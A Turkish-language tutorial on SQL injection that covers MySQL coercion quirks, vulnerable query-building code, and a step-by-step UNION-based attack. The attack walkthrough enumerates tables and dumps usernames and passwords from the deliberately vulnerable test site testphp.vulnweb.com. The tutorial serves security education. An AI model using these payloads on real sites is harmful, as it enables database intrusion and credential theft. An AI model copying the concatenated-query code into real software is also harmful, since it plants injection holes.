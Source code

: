 # SQL Injection nedir?
Saldırganların yazdığınız web uygulamasını / web yazılımını kullanarak veritabanında kendi SQL sorgularını çalıştırabilme işidir.

# MySQL Sorguları
ÜST KOLON ADI - ALTI VERİSİ
|Sorgu|Sonuç|Sebep|
|---|---|---|
|SELECT 1;|1||
|SELECT 2-1;|1||
|SELECT 2+1;|3||
|SELECT '2-1';|2-1||
|SELECT '2'-'1';|1||
|SELECT '2'+'1';|3||
|SELECT '2'+'a';|2|'2' ifadesini integer değere çevirdi ancak 'a' ifadesini integer yapamadı. Bu yüzden 0 aldı.|
|SELECT '2'-'a';|2||
|SELECT 'b'+'a';|0|Yine yukarıda geçen şekilde b ve a değerlerini integer yapamadı bu sebeple 0 değerlerini aldılar.|
|SELECT '2' '1';|21|Boşluğu String Concatenation olarak kullandı.|
|SELECT concat('2','1');||
|SELECT '2' '1' 'a';|21a||
|SELECT '2' '1' 'a'-1;|20|'a'-1 ifadesinin sonucu -1 çünkü a=0 -> '2' '1' -1 burada da '1'-1 işleminin sonucu 0. '2' ile de 0 concatenation yapılıyor ve 20 çıkıyor.|
|SELECT 2^1;|3|Bu ifade toplama anlamına gelmiyor. Bu bir XOR operator|
|SELECT 2^2;|2||
|SELECT !1;|0||
|SELECT ~1;|18446744073709551614|max integer input|


## Örnek için DB oluşturuyoruz
1. ```create database test;``` test veritabanı oluşturduk
2. tablo oluşturuyoruz
3. ```use test;```
4.
 ```CREATE TABLE users (
id INT(6) UNSIGNED AUTO_INCREMENT PRIMARY KEY,
firstname VARCHAR(30) NOT NULL,
lastname VARCHAR(30) NOT NULL
);

``` 
5. ```INSERT INTO users (firstname,lastname) VALUEs ('mehmet','ince');```
6. ```select * from users;```
7. ```INSERT INTO users (firstname,lastname) VALUEs ('mehmet ','ince');```
8. ```INSERT INTO users (firstname,lastname) VALUEs ('mehmet  ','ince');```
9. ```INSERT INTO users (firstname,lastname) VALUEs ('mehmet   ','ince');```
10. 7,8 ve9. adımda mehmet değerlerimizin sonlarına boşluklar ekleyerek tekrar kaydettik. Her birinde bir öncekinden bir fazla boşluk var.
11. ```select * from users; 
12. 4 adet mehmet ince kullanıcısını gördük.
13. ```select * from users WHERE firstname = 'mehmet'; ```
14. Bize tüm mehmetleri getirdi. Değerin sonunda boşluk olup olmaması önemli değildir. Veritabanına ekleme yaparken boşluk olduğu için yeni bir değer olarak görülüp kaydediliyor ancak select ile sorgu yapıp değeri çağırırken boşluk olup olmamasına bakılmıyor. 



# SQL Injection'a giriş yapıyoruz
``` 
SALDIRGANIN BAKIŞ AÇISI 

www.x.com/?id=1  

SELECT * FROM haberler WHERE id = 1

RESPONSE

<html>
MDISEC -> bize dönen haberin başlığı
</html>

www.x.com/?id=2  

SELECT * FROM haberler WHERE id = 2 

RESPONSE

<html>
LUNIZZ
</html>

www.x.com/?id=2-1

SELECT * FROM haberler WHERE id = 2-1 

RESPONSE

<html>
MDISEC
</html>

yani www.x.com/?id=1 ve www.x.com/?id=2-1 aynı sonucu döndürüyor. SQL sorgusunda matematik işlemi yapabildik.


www.x.com/?id=ahsdjahsdkjhasd -> buraya ne yazarsak sorgunun sonuna o eklenir.

SELECT * FROM haberler WHERE id = ahsdjahsdkjhasd

RESPONSE

<html>
MDISEC
</html>




=================================



Response'da tetiklenen backend

id = request.get('id')

query = "SELECT * FROM haberler WHERE id ="+id -> sorgumuz

result = db.execute(query) -> sonuç

if result.size() > 0:  -> demek ki veritabanından bir veri döndü
  for i in result:
    print(i.title) -> dönen verinin title'ını başlığını yazdırıyoruz.
else: -> veritabanından veri dönmüyorsa.
  print("haber yok")
  
  
  

```




************************** UNION SQLi **************************

Artık SQL Injection zafiyetinin farkına vardık. Kendi sorgularımızı yazmamız gerekiyor. Bunu da UNION ile yapabiliriz. Union ile yazdığımız iki sorguda da kolon sayıları eşit olmak zorunda.


http://testphp.vulnweb.com/listproducts.php?cat=1 -> zafiyetli bir site.

SELECT * FROM haberler WHERE id = 1 UNION SELECT 1 
yazdık çünkü biliyoruz ki SELECT 1 çalışır. Ve üstteki sitede hata aldık. Bu kolon sayılarının aynı olmadığı anlamına geliyor. (1)  Sayıyı sürekli artıracağız ta ki referans noktamıza gelene kadar

SELECT * FROM haberler WHERE id = 1 UNION SELECT 1,2,3,4,5,6,7,8,9,10,11 ve referans noktamıza döndük 
http://testphp.vulnweb.com/listproducts.php?cat=1 UNION SELECT 1,2,3,4,5,6,7,8,9,10,11

TRICK #1
Artırmayı yaparken öncelikle 2-1 ile SQL injectionın varlığını tespit etmek gerekiyor.

TRICK #2  
Referans sayfasının ve kendi select sorgu sonucumuzda gelen sayfaların en sonuna iniyoruz. Bir fark var. Referansta en sonda trees varken kendi sorgumuzda en sonda 7,2,9 geliyor.

Bunun anlamı : 
SELECT * FROM haberler WHERE id = 1 UNION SELECT 1,2,3,4,5,6,7,8,9,10,11 bundaki ilk select sorgusunun 7. 2. ve 9. kolonlarında dönen indisleri uygulama, ekrana yazdır demektir.

7'de helper fonksiyon çağırırsak eğer:
SELECT * FROM haberler WHERE id = 1 UNION SELECT 1,2,3,4,5,6,version(),8,9,10,11 şeklinde. sayfanın en altında 7 yazan yerde artık versiyon bilgisini alırız.


Ekranda kalabalık istemiyorsak ilk select sorgumuz bize bir şey getirmesin sadece kendi sorgumuzun sonuçlarını görelim istersek 

SELECT * FROM haberler WHERE id = -99999999 UNION SELECT 1,2,3,4,5,6,7,8,9,10,11 yazabiliriz. Çünkü bu id'ye sahip bir değer yoktur. Sadece kendi sorgularımız ekranda gözükür.



SELECT * FROM haberler WHERE id = -99999999 UNION SELECT 1,2,3,4,5,6,database(),8,9,10,11 -> mevcuttaki database adı 
sitedeki karşılığı:
http://testphp.vulnweb.com/listproducts.php?cat=-999999999 UNION SELECT 1,2,3,4,5,6,database(),8,9,10,


artık from sorgusu yapabiliriz ama ne yazacağız ? tablo adını bulmalıyız. 
İlişkisel her veritabanı sisteminde o sistemdeki tablo, kolon isimlerini barındıran bir sistem bilgi tablosu vardır. 

SELECT * FROM haberler WHERE id = -99999999 
UNION SELECT 1,2,3,4,5,6,table_name,8,9,10,11 FROM information_schema.tables WHERE table_schema = database()

test sitesinde denersek: 
http://testphp.vulnweb.com/listproducts.php?cat=-999999999 UNION SELECT 1,2,3,4,5,6,table_name,8,9,10,11 FROM information_schema.tables WHERE table_schema = database()

http://testphp.vulnweb.com/listproducts.php?cat=-999999999 UNION SELECT 1,2,3,4,5,6,column_name,8,9,10,11 FROM information_schema.columns WHERE table_name = 'users'

uname pass gibi kısımları görmeye başladık.

http://testphp.vulnweb.com/listproducts.php?cat=-999999999 UNION SELECT 1,2,3,4,5,6,uname,8,9,10,11 FROM users -> kullanıcı adı = test
http://testphp.vulnweb.com/listproducts.php?cat=-999999999 UNION SELECT 1,2,3,4,5,6,pass,8,9,10,11 FROM users -> parola = test

http://testphp.vulnweb.com/listproducts.php?cat=-999999999 UNION SELECT 1,2,3,4,5,6,concat(uname,':MDISEC:',pass),8,9,10,11 FROM users

REGEX:
(.*)::MDISEC::(.*)   programlamatik şekilde yukarıdakini çekebiliriz. 

==========

BACKEND
```
(1) örneğinde kolon sayılarının aynı olmadığın bize söyleyen bir hata aldık. Bunun gibi hatalar diğer sitelerde kapalıdır. Örnek kodu da aşağıdaki gibidir.


id = request.get('id')

query = "SELECT * FROM haberler WHERE id ="+id -> sorgumuz
try:
  result = db.execute(query)
except Exception as e:
  pass

if result.size() > 0:  -> demek ki veritabanından bir veri döndü
  for i in result:
    print(i.title) -> dönen verinin title'ını başlığını yazdırıyoruz.
else: -> veritabanından veri dönmüyorsa.
  print("haber yok")
```
